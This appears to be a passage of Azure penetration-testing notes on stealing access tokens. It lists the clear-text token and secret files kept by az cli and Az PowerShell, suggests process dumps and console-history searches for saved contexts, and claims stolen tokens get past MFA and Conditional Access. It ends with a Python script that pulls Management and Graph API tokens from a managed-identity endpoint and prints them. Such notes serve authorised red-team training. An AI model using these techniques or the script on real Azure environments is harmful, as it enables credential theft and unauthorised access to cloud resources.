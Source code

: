 ## Using Azure tokens
- Both Az PowerShell and AzureAD modules allow the use of Access tokens for authentication.
- Usually, tokens contain all the claims (including that for MFA and Conditional Access etc.) so they are useful in bypassing such security controls.
- Office 365 stealer steals a token for the Graph API with the permissions that are registered.
- For managed identities check the IDENTITY_ENDPOINT to see which token it is.
- Can also use https://jwt.io or https://jwt.ms to see what token it is.
- Which token to use
  - Access Token - Azure Resouces
  - Graph Token - Azure AD
  - Key Vault Token - Keyvault Access

### Stealing tokens
#### Stealing tokens from az cli
- az cli stores access tokens in clear text in ```accessTokens.json``` in the directory ```C:\Users\<username>\.Azure```
- We can read tokens from the file, use them and request new ones too!
- azureProfile.json in the same directory contains information about subscriptions. 
- You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
- To clear the access tokens, always use az logout

#### Stealing tokens from az powershell
- Az PowerShell stores access tokens in clear text in ```TokenCache.dat``` in the directory ```C:\Users\<username>\.Azure```
- It also stores ServicePrincipalSecret in clear-text in AzureRmContext.jsonif a service principal secret is used to authenticate. 
- Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
- Users can save tokens using Save-AzContext, look out for them! Search for Save-AzContext in PowerShell console history!
- Always use Disconnect-AzAccount!!

#### Request tokens from the CLI!
- Check below for example in using tokens!

### Stealing token scripts
#### Python
```
import os
import json

IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()

print("[+] Management API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])

cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()
print("\r\n[+] Graph API")
print(json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])
```
